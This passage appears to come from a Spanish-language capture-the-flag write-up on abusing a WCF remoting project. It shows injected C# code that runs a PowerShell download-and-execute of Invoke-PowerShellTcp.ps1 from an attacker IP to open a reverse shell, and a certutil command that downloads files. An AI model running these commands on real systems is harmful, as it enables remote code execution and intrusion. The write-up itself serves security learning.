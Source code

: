 ####  Abusando del proyecto WCF

Intentaremos inyectar codigo malicioso en el proyecto que encontramos y compilamos.

Codigo a agregar: 

Console.WriteLine(client.InvokePowerShell("IEX (new-object net.webclient).downloadstring('http://nuestraIP/Invoke-PowerShellTcp.ps1')"));

![](/assets/img/Linux/Sharp/wcf_04.png)

Procedemos a transferir los archivos, simplemente tomamos `WcfClient.exe` y `WcfRemotingLibrary.dll` que se encuentra en el path: `wcf\Client\bin\Debug`

![](/assets/img/Linux/Sharp/wcf_05.png)

Usando Certutil: `certutil -urlcache -split -f http://nuestraIP/archivo`

![](/assets/img/Linux/Sharp/wcf_06.png)
